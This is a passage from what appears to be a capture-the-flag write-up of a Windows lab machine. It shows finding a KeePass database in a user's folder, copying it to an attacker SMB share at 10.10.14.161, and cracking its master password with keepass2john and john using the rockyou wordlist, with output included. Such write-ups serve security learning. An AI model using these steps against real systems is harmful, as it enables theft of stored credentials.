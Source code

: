Now we can start enumerating the system.

Inside the Documents folder we find a **KeePass database** file:
```bash
dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:sers\kohsuke\Documents

11/03/2017  11:18 PM    <DIR>          .
11/03/2017  11:18 PM    <DIR>          ..
09/18/2017  01:43 PM             2,846 CEH.kdbx
               1 File(s)          2,846 bytes
               2 Dir(s)   7,246,278,656 bytes free

C:\Users\kohsuke\Documents>
```

We are going to send this over with the **smbserver** we have set:
```bash
❯ copy CEH.kdbx \\10.10.14.161\smbFolder\
        1 file(s) copied.
```

```bash
❯ ls
 CEH.kdbx nc.exe 
```

With **keepassxc** we can open this database, however we need the master password:
{{< image src="/img/jev10.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Using **keepass2john** we will get a hash that we can crack to get this password:
```bash
❯ keepass2john CEH.kdbx > hash

❯ john --wordlist=/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt hash

Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:00:50 DONE (2022-07-06 20:10) 0.01979g/s 1088p/s 1088c/s 1088C/s nana09..monyong
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Luckily for us the password is inside **rockyou.txt**, now we can take a look into the **keepass**:
{{< image src="/img/jev11.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We have a lot of data so let's go one by one.
